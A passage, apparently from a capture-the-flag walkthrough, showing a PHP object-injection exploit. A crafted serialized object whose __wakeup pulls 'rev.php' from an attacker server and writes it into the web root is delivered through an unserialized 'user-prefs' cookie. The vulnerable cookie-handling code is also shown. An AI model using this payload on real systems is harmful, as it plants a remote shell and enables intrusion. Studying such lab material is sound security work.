 ```php
    }
}

class AvatarInterface {
    public $tmp;
    public $imgPath;

    public function __wakeup() {
        $a = new Avatar($this->imgPath);
        $a->save($this->tmp);
    }
}

$user_data = new AvatarInterface();
$user_data->tmp = "http://10.10.16.23:8000/rev.php";
$user_data->imgPath = "/var/www/html/hello.php";

echo base64_encode(serialize($user_data));

?>
```

- `utils.php` (again)
- The cookie that we just generated with the above code will be changed in the console. When this occurs the `$up` variable will deserialize the code. This code will then be passed into the `get_theme_class` function. When the theme is toggled to `light` or `dark` the code we created will be parsed and this will activate the code and pull the `rev.php` from your server.

```php
function get_theme() {
    if (isset($_SESSION['id'])) {
        if (!isset($_COOKIE['user-prefs'])) {
            $up_cookie = base64_encode(serialize(new UserPrefs()));
            setcookie('user-prefs', $up_cookie);
        } else {
            $up_cookie = $_COOKIE['user-prefs'];
        }
        $up = unserialize(base64_decode($up_cookie));
        return $up->theme;
    } else {
        return "light";
    }
}

function get_theme_class($theme = null) {
    if (!isset($theme)) {
        $theme = get_theme();
    }
    if (strcmp($theme, "light")) {
        return "uk-light";
    } else {
        return "uk-dark";
    }
}

function set_theme($val) {
    if (isset($_SESSION['id'])) {
        setcookie('user-prefs',base64_encode(serialize(new UserPrefs($val))));
    }
}
```
